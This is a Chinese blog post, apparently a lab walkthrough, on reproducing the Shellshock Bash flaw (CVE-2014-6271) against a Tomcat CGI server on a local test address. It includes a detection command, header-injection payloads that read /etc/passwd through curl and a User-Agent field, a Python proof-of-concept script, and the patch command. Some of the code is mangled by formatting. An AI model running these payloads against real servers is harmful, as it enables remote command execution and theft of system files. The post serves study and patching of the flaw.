# Bash 远程代码执行漏洞(CVE-2014-6271)案例分析 - Agoly - 博客园

> 原文：[`www.cnblogs.com/qmfsun/p/7591757.html`](https://www.cnblogs.com/qmfsun/p/7591757.html)

[Web 服务器和 CGI 的关系](http://blog.csdn.net/kobejayandy/article/details/11906505)

**什么是 WEB 服务器（IIS、Nginx、Apache）**

WEB 服务器也称为 WWW(WORLD WIDE WEB)服务器，主要功能是提供网上信息浏览服务。
(1)应用层使用 HTTP 协议。
(2)HTML 文档格式。
(3)浏览器统一资源定位器(URL)。

### **CGI,FastCGI**

CGI 全称是“公共网关接口”(Common Gateway Interface)，HTTP 服务器与你的或其它机器上的程序进行“交谈”的一种工具，其程序须运行在网络服务器上。

CGI 可以用任何一种语言编写，只要这种语言具有标准输入、输出和环境变量。

 

**漏洞介绍：**

**CVE-2014-6271，该漏洞将导致远程攻击者在受影响的系统上执行任意代码。**

****漏洞概述：****

**GNU Bash 4.3 及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，**

**攻击者可利用此漏洞改变或绕过环境限制，以执行 shell 命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。**

**此漏洞源于在调用 bash shell 之前可以用构造的值创建环境变量。这些变量可以包含代码，在 shell 被调用后会被立即执行。**

**漏洞影响：**GNU Bash <= 4.3，此漏洞可能会影响到使用 ForceCommand 功能的 OpenSSH sshd、使用 mod_cgi 或 mod_cgid 的 Apache 服务器、DHCP 客户端、其他使用 Bash 作为解释器的应用等。

GNU Bash（Bourne again shell）是一个为 GNU 计划编写的 Unix shell，广泛使用在 Linux 系统内，最初的功能仅是一个简单的基于终端的命令解释器。

查看 Bash 的版本：

**rpm -qa |grep bash**

****

**受影响的系统包括：**

**该漏洞存在于 bash 1.14 - 4.3 版本中，受影响的 Linux 系统包括：Red Hat 企业 Linux (versions 4 ~7) 、Fedora distribution、CentOS (versions 5 ~7)、**

**Ubuntu 10.04 LTS,12.04 LTS 和 14.04 LTS、Debian 等**

实战条件：

首先执行检测命令：

**env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"**


如果出现这个结果，则说明本机的 bash 存在漏洞

centos6.8+tomcat7.0.69

首先搭建 tomcat 环境：

下载 apache-tomcat-7.0.69.tar.gz 包



如何在 Tomcat 上部署 CGI：

**1.首先你要有一个 Tomcat 服务器**

  到 Apache Tomcat 官网上去下载，本文使用的是 Tomcat 7 系列。如果你选用的是更低的版本，可能本文的配置方法对你不适用。

**2.想要运行 Tomcat 还需要 java 运行环境。**

  需要到 Oracle 官网下载，本文使用为 jdk8

**3.安装 jdk，设置环境变量，如果需要。以我机器上为例：**

> JAVA_HOME:C:\Program Files (x86)\Java\jdk1.8.0_112-b15    ---JDK 安装路径
> 
> PATH:%JAVA_HOME%\bin;%JAVA_HOME%\jre\bin;
> 
> CLASSPATH:.;%JAVA_HOME%\lib\dt.jar;%JAVA_HOME%\lib\tools.jar;
> 
> CATALINA_HOME:E:\apache-tomcat-7.0.69    ---Tomcat 解压位置

**4.测试一下**：命令行输入 startup.sh，服务器启动，最终给出信息：INFO: Server startup in 3054 ms


 也可以在浏览器中输入：[`192.168.10.46:8080/`](http://localhost:8080/) 查看是否启动成功



**5.Tomcat7 支持 CGI，但是默认配置是关闭的需要进行如下配置**

1.修改 Tomcat conf/web.xml 中两处代码，默认是注释掉的，**去掉注释即可**





2.修改 Tomcat conf/context.xml

在标签<Context>中添加属性 privileged = "true" ,此时，Tomcat 才允许 web 应用使用容器内的 Servlet



3.此时 Tomcat 已经可以运行 CGI 程序了

当一个 CGI 请求到达 Tomcat 时，CGIServlet 会对其进行拦截，请求的格式为 [`.../cgi-bin/xxxx`](http://.../cgi-bin/xxxx),然后 CGIServlet 会到相应的项目的 WEB-INF/cgi 目录下调用相应的 CGI 文件处理请求

**6.测试**

测试文件目录

test.cgi

  |---WEB-INF

       |---cgi

           |---test.cgi

test.cgi 文件内容



mkdir cgi 目录


将 cgi 程序放在 WEB-INF/cgi 目录中，最好让 cgi 程序有可执行权限

最好让 cgi 程序有可执行权限 chmod u+x

创建 test.cgi 测试文件：


```
#filename: test.cgi
print "Content-type: text/html\n\n";
print "Hello, Agoly!\n"
```


开启拦截数据包：

User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"' 'http://192.168.10.46:8080/cgi-bin/test.cgi


curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"' '**http://192.168.10.46:8080/cgi-bin/test.cgi**' -I

感觉不起作用

重新写了一个 test.sh 脚本

#!/bin/bash
echo"Content-type: text/html"
echo ""





拦截抓包：



案例 2：通过使用分析，只要是 sh 脚本，都可以利用

创建一个 aa.sh 脚本：脚本内容如下



**#!/bin/bash**
**echo "Content-type:text/html;charset=UTF8\n"**

**echo ""**

**echo "Hello,Agoly!"**


修改 User-Agent

**User-Agent: () { :;};a=`/bin/cat /etc/passwd`;echo "a: $a"**

**User-Agent: () { :;}; echo `/bin/cat /etc/passwd`**


设置


发现 id 执行结果为空：

解决办法：


所以，输入命令，需要带上命令的执行路径




方法 2：通过 python 写 poc

```
#coding:utf-8 import urllib,httplib
import sys,re,urlparse
#author:nx4dm1n
#website:http://www.nxadmin.com
 def bash_exp(url):
    urlsp=urlparse.urlparse(url)
    hostname=urlsp.netloc
    urlpath=urlsp.path
    conn=httplib.HTTPConnection(hostname)
    headers={"User-Agent":"() { :;}; echo `**/bin/cat /etc/passwd**`"}
    conn.request("GET",urlpath,headers=headers)
    res=conn.getresponse()
    res=res.getheaders() for passwdstr in res:
        print passwdstr[0]+':'+passwdstr[1] if __name__=='__main__':

    #带 http if len(sys.argv)<2:
        print "Usage: "+sys.argv[0]+" http://192.168.10.46:8080/cgi-bin/aa.sh" sys.exit() else:
        bash_exp(sys.argv[1])
```


解决方法：

centos:

**yum update -y bash**

****

正常的：


